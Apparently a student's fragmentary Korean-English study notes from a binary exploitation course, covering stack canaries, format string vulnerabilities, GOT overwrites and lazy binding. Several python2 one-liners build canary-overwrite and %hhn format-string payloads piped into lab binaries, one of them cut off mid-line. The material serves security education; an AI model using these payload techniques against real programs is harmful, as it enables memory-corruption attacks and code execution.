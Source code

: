 Formats11

Canary

vulfoo has canary

argc 갯수
argv 어레이로된 parameter

fread

부모 프로세스- 아들 프로세스
Format string

Format 11_32

**카나리 찾는법**
1. Printf 에서 %x.으로 메모리 주소 읽기
	objdump -d - 디스어셈블
	

%eax,-0x2c(%ebp) 
ebp-20

0x8049276

python2 -c "print 'a'*20 + '\x00\x53\x5c\x59' + 'a'*12 + 

카나리를 잘 덮었어야되

SHELL CODE로 리턴하기 >


tmpbuffer
	RET
		%x %x.... %n
			Override = 4 bytes
				1 byte = %hhn Higer 4 bytes are same just lower 4 bytes
			$hhn$nx$hhn
			![[Screenshot 2024-10-31 at 3.37.55 PM.png]]
				python2 -c "print '\x8c\xd6\xff\xff'+'\x8d\xd6\xff\xff' + '%08x.'*8 + '%hhhn%hhn'" | ./formatstring_formats5_3
				8 Bytes+ 9bytes
				=62bytes
		4,4,4,10,58x

1. 하나의 정수는 4바이트
2. 하나의 HEX는 1 바이트
3. python2 -c "print '\x8c\xd6\xff\xff'+'aaaa'+'\x8d\xd6\xff\xff' + '%09x.'*5 + '%248x' +'%hhn%92d%hhn'" | ./formatstring_formats5_32 


formats9
3 global variables


Arbitrary Overwrite
1. Code Pointers (RET Address)
2. Function Pointers
	1. C++ vtable -> Code Pointers
	2. GCC .fini section
	3. GCC .got section Global Offset Table

Lazy Binding
		1. Memory에 적재되면
		2. C library는 그 library를 어드레스에 넣고 테이블에 넣는다 2번째 함수는 그 테이블에서 뽑아서 쓴다
		3. Procedure Linkage Table (코드가 들어 있음) 쓸수 없다
		4. GOT = Table이다 (각 라이브러리의 주소가 있다) 쓸수 있다
	1. 프로그램 시작하면 아무것도 없고
	2. 처음으로 시작하면 그 주소를 찾아서 테이블에 넣는다
	3. GOT Linker+Loader(Runtime):